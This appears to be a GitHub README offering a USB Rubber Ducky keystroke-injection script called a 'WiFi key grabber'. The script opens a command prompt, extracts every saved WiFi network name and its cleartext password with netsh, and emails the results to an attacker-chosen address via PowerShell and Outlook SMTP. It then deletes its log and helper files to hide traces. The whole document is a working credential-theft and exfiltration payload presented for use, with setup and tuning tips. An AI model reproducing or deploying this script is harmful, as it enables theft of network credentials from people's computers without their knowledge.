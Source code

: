 ### Change the following things:
* **ACCOUNT**: Your **hotmail/outlook account**
* **PASSWORD**: Your **hotmail/outlook password**
* **RECEIVER**: The email you want to send the content of Log.txt to

```
DELAY 1000
REM --> Minimize all windows
WINDOWS d
REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 200
REM --> Get all SSID
STRING cd %USERPROFILE% & netsh wlan show profiles | findstr "All" > a.txt
ENTER
REM --> Create a filter.bat to get all the profile names
STRING echo setlocal enabledelayedexpansion^
ENTER
ENTER
STRING for /f "tokens=5*" %%i in (a.txt) do (^
ENTER
ENTER
STRING set val=%%i %%j^
ENTER
ENTER
STRING if "!val:~-1!" == " " set val=!val:~0,-1!^
ENTER
ENTER
STRING echo !val!^>^>b.txt) > filter.bat
ENTER
REM --> Run filter.bat and save all profile names in b.txt
STRING filter.bat
DELAY 300
ENTER
REM --> Save all the good stuff in Log.txt and delete the other garbage files
STRING (for /f "tokens=*" %i in (b.txt) do @echo     SSID: %i & netsh wlan show profiles name="%i" key=clear | findstr /c:"Key Content" & echo.) > Log.txt
ENTER
DELAY 1000
STRING del a.txt b.txt filter.bat
ENTER
REM --> Mail Log.txt
STRING powershell
ENTER
DELAY 1000
STRING $SMTPServer = 'smtp-mail.outlook.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSSL = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@hotmail.com', 'PASSWORD')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@hotmail.com'
ENTER
STRING $ReportEmail.To.Add('RECEIVER@any.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content Log.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 3000
STRING exit
ENTER
DELAY 500
REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER

```


### Note:

This script will grab not just the current SSID and password your computer is connecting to but every single SSID and password you have previously connected/saved on your computer. And it works even if the WiFi name contains special characters (such as a smiley face) or spaces. I'm not using gmail here because Google is pretty restrictive when it comes to 3rd party app authentication (let me know if it works with other mail server such as yahoo, zoho, etc)

You might want to adjust the DELAY depending on the system you are running e.g set a higher delay time if your system is slow.